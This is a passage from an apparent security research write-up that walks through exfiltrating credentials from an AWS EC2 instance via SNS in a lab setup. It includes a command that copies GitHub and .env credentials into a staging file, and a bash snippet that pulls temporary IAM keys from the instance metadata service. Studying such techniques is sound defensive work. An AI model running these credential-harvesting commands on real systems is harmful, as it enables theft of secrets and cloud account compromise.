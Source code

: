 Let’s SSH into our EC2 instance to ensure that our sensitive credentials were created from the user-data script. Note in the `outputs.tf` file, we ensured that the SSH command would be generated for us based on the key path and public IP of our EC2 instance. 

![Bash command output for credential check](/assets/images/aws-sns-abuse/image10.png)

With this infrastructure staged and confirmed, we can then move on to practical execution.

### The Workflow in Practice: Exfiltrating Sensitive Credentials

Let’s step through this workflow in practice, now that our infrastructure is established. As a reminder, the goal of our opportunistic adversary is to check for local credentials, grab what they can and stage the sensitive data locally. Since landing on this EC2 instance, we have identified the AWS CLI exists, and identified we have SNS permissions. Thus, we plan to create a SNS topic, register an external email as a subscriber and then exfiltrateour stolen credentials and other data as SNS messages.

Note: While this example is extremely simple, the goal is to focus on SNS as a methodology for exfiltration. The exact circumstances and scenario will differ depending on the specific infrastructure setup of the victim.

**Identify and Collect Credentials from Common Locations:**  
Our adversary will target GitHub credentials files and .env files locally with some good ol’ fashioned Bash scripting. This will take the credentials from these files and drop them into the `/tmp` temporary folder, staging them for exfiltration.

Command: cat /home/ubuntu/.github/credentials /home/ubuntu/project.env \> /tmp/stolen_creds.txt

![](/assets/images/aws-sns-abuse/image11.png)

**Stage Exfiltration Method by Creating SNS Topic**  
Let’s leverage the existing AWS CLI to create the SNS topic. As a reminder, this EC2 instance assumes the custom IAM role we created and attached, which allows it to create SNS topics and publish messages. Since the AWS CLI is pre-installed on our EC2 instance, it will retrieve temporary credentials from IMDSv2 for the assumed role when invoked. However, if this were not the case, an adversary could retrieve credentials natively with the following bash code. 

```
# Fetch the IMDSv2 token
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# Get the IAM role name
ROLE_NAME=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)

# Fetch the temporary credentials
CREDENTIALS=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME)

# Extract the Access Key, Secret Key, and Token
AWS_ACCESS_KEY_ID=$(echo $CREDENTIALS | jq -r '.AccessKeyId')
AWS_SECRET_ACCESS_KEY=$(echo $CREDENTIALS | jq -r '.SecretAccessKey')
AWS_SESSION_TOKEN=$(echo $CREDENTIALS | jq -r '.Token')
```
